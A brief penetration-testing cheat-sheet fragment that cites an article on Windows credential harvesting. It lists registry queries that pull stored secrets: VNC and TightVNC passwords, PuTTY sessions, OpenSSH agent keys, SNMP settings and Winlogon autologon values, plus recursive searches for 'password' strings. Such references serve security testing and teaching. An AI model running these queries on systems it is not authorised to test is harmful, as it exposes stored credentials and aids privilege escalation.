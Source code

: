 https://steflan-security.com/windows-privilege-escalation-credential-harvesting/
* reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
* reg query “HKCU\Software\ORL\WinVNC3\Password”
* reg query “HKCU\Software\TightVNC\Server”
* reg query “HKCU\Software\OpenSSH\Agent\Key”
* reg query “HKCU\Software\SimonTatham\PuTTY\Sessions”
* reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon”
* reg query HKLM /f password /t REG_SZ /s
* reg query HKCU /f password /t REG_SZ /s
